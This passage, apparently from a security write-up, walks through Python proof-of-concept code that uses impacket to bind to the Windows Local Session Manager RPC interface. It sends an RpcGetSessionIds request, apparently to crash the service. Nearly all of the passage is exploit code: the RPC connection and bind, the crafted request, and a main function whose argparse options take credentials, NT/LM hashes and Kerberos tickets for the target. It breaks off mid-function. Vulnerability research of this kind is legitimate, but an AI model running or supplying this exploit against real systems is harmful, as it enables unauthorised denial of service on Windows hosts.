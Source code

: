 ```py
        print("[-] Connecting to %s" % binding_params["LSM_API_SERVICE"]['stringBinding'])
        try:
            dce.connect()
        except Exception as e:
            print("Something went wrong, check error status => %s" % str(e))  
            #sys.exit()
            return
        print("[+] Connected!")
        print("[+] Binding to %s" % binding_params["LSM_API_SERVICE"]['MSRPC_UUID_LSM'][0])
        try:
            dce.bind(uuidtup_to_bin(binding_params["LSM_API_SERVICE"]['MSRPC_UUID_LSM']))
        except Exception as e:
            print("Something went wrong, check error status => %s" % str(e)) 
            #sys.exit()
            return
        print("[+] Successfully bound!")
        return dce
        
    def RpcGetSessionIds(self, dce):
        print("[-] Sending RpcGetSessionIds!")
        try:
            request = RpcGetSessionIds()
            request['input']['p0'] = 0
            request['input']['p1'] = 0
            request.dump()
            resp = dce.request(request)
            
        except Exception as e:
            print(e)
```

The final function (main) of this exploit uses the `argparse` library to parse the user specified arguments to impacket and initialize the exploit.

```py
def main():
    parser = argparse.ArgumentParser(add_help = True, description = "Crash LSM PoC")
    parser.add_argument('-u', '--username', action="store", default='', help='valid username')
    parser.add_argument('-p', '--password', action="store", default='', help='valid password (if omitted, it will be asked unless -no-pass)')
    parser.add_argument('-d', '--domain', action="store", default='', help='valid domain name')
    parser.add_argument('-hashes', action="store", metavar="[LMHASH]:NTHASH", help='NT/LM hashes (LM hash can be empty)')

    parser.add_argument('-no-pass', action="store_true", help='don\'t ask for password (useful for -k)')
    parser.add_argument('-k', action="store_true", help='Use Kerberos authentication. Grabs credentials from ccache file '
                        '(KRB5CCNAME) based on target parameters. If valid credentials '
                        'cannot be found, it will use the ones specified in the command '
                        'line')
    parser.add_argument('-dc-ip', action="store", metavar="ip address", help='IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter')
    parser.add_argument('-target-ip', action='store', metavar="ip address",
                        help='IP Address of the target machine. If omitted it will use whatever was specified as target. '
                        'This is useful when target is the NetBIOS name or Kerberos name and you cannot resolve it')

    parser.add_argument('target', help='ip address or hostname of target')
    options = parser.parse_args()

    if options.hashes is not None:
        lmhash, nthash = options.hashes.split(':')
```